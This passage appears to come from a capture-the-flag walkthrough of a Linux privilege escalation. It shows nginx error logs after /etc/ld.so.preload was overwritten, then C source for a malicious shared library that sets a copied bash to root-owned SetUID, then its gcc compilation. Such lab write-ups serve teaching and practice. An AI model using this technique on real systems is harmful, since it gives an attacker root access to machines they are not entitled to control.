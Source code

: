     ERROR: ld.so: object 'request' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '"GET' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '/tmp/pwn.so' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object 'HTTP/1.1",' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object 'host' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '"localhost' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '1339"' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.

    2023/11/08 21:13:40 [error] 2426#2426: *1 open() "/tmp/pwn.so" failed (2: No such file or directory), client: 127.0.0.1, server: , request: "GET /tmp/pwn.so HTTP/1.1", host: "localhost:1339"
    2023/11/08 21:13:42 [error] 2426#2426: *2 open() "/tmp/pwn.so" failed (2: No such file or directory), client: 127.0.0.1, server: , request: "GET /tmp/pwn.so HTTP/1.1", host: "localhost:1339"


Now any command will try to load a bunch of junk, but also
`/tmp/pwn.so`.

#### Create SO

I'll make a copy of `bash` to mess with:



    activemq@broker:/tmp$ cp /bin/bash /tmp/rootshell
    ...[snip errors]...



I'll write the following to `/tmp/pwn.c`:



    #include <stdio.h>
    #include <sys/types.h>
    #include <unistd.h>
    __attribute__ ((__constructor__))
    void dropshell(void){
       chown("/tmp/rootshell", 0, 0);
       chmod("/tmp/rootshell", 04755); 
       unlink("/etc/ld.so.preload");
       printf("[+] done!\n");
    }



This will be the shared library, and on being loaded, it will change the
`bash` executable I just copied to be owned by root and have the SetUID
bit on. Compiling this throws a warning, but it makes the file:



    activemq@broker:/tmp$ gcc -fPIC -shared -ldl -o /tmp/pwn.so pwn.c 
    ...[snip errors]...
    pwn.c: In function ‘dropshell’:
    pwn.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
       7 |     chmod("/tmp/rootshell", 04755);
         |     ^~~~~
    activemq@broker:/tmp$ ls
    ...[snip errors]...
    pwn.c  pwn.so  rootshell
